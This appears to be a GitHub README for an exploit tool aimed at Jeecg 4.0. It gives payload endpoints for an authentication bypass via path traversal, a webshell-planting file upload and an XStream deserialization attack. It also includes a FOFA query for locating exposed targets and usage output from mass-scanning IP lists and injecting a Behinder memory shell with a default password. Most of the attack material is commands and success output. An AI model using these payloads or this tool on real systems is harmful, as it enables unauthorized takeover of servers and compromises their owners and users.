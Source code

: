 #  Jeecg4.0 GetShell

## Bypass_authorized 

### payload

```
http://ip:port/api/../xxxxxx
```

### poc

正常请求

![image-20220825124856083](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/1.png)

未授权请求

![image-20220825124932019](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/2.png)

## File_upload

### payload

```
http://ip:port/iconController.do?saveOrUpdateIcon
```

### poc

![image-20220825125237074](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/3.png)

### webshell_url

```
http://ip:port/plug-in/accordion/images/x.xxx
```

## Xstream_deserialize

### payload

```
http://ip:port/cgformSqlController.do?doMigrateIn
```

### xstream_payload

```
http://x-stream.github.io/CVE-2021-39149.html
```

### poc

![image-20220825130714206](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/4.png)

## Jeecg_v4.0_getshell

```
  Title  :  Jeecg4.0 GetShell
  Author  :  R4gd0ll
  Usage  :  python3 jeecg_v4.0_getshell.py -h

  -h --help    打开帮助
  -u --url     对单个ip进行测试
  -f --file    对文件中的所有ip进行测试
  -m --msmurl  注入冰蝎内存马(默认连接密码reyebond,支持4.0,仅支持单独ip测试)
```
## fofa

```
body="JEECG版权所有 v_4.0" || title="Jeecg 快速开发平台"
```

### help

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -h

    -------------------------------------------------------------------------
    Title   :   Jeecg4.0 GetShell
    Author  :   R4gd0ll
    Usage   :   python3 jeecg_v4.0_getshell.py -h

    -h --help     打开帮助
    -u --url      对单个ip进行测试
    -f --file     对文件中的所有ip进行测试
    -m --msmurl   注入冰蝎内存马(默认连接密码reyebond,支持4.0,仅支持单独ip测试)
    -------------------------------------------------------------------------
```

### url

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -u http://127.0.0.1:8080/jeecg

[+] getshell success, webshell地址:http://127.0.0.1:8080/jeecg/plug-in/accordion/images/1.jsp
```

![image-20220825133223937](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/5.png)

### msmurl

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -m http://127.0.0.1:8080/jeecg/

Behinder msmshell success
```

![image-20220825133349259](https://github.com/R4gd0ll/Jeecg_v4.0_getshell/blob/main/images/6.png)

### file

```
C:\jeecg>python3 jeecg_v4.0_getshell.py -f 1.txt
[-] getshell fail
[-] getshell fail
[-] 访问出现错误！
[-] 访问出现错误！
[-] getshell fail
[+] getshell success, webshell地址:http://xxxxx/plug-in/accordion/images/1.jsp
[+] getshell success, webshell地址:http://xxxxx//plug-in/accordion/images/1.jsp
```

